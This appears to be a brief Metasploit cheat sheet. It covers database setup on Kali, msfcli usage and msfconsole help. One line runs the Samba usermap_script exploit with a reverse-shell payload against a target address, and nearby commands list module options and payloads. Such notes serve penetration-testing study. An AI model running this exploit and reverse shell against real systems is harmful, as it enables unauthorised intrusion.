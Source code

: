 #  Metasploit


### Fix database issue

```
root@kali:~### service postgresql start; service metasploit start
root@kali:~### su postgres
postgres@kali:~$ createuser lee -P
Enter password for new role:
Enter it again:
Shall the new role be a superuser? (y/n) n
Shall the new role be allowed to create databases? (y/n) n
Shall the new role be allowed to create more new roles? (y/n) n
postgres@kali:~$ createdb --owner=lee msf
postgres@kali:~$ exit
exit
root@kali:~### msfconsole
msf > db_connect lee:<password>@127.0.0.1:5432/msf
msf > hosts

```
------------------------------------------------------------------------------------------------------

### msfcli

```
msfcli -h

```
All options are case-sensitive.
```
msfcli exploit/multi/samba/usermap_script RHOST=10.0.0.20 PAYLOAD=cmd/unix/reverse LHOST=10.0.0.5 E
```

If you are not sure about what options belong to a particular module, you can append the letter 'O' to the end of the string.
```
msfcli exploit/multi/samba/usermap_script O
```

To display the payloads that are available for the current module, append the letter 'P' to the end of the string.
```
msfcli exploit/multi/samba/usermap_script P
```
------------------------------------------------------------------------------------------------------

### msfconsole

msfconsole

help or ?                     List available commands and their descriptions.
------------------------------------------------------------------------------------------------------
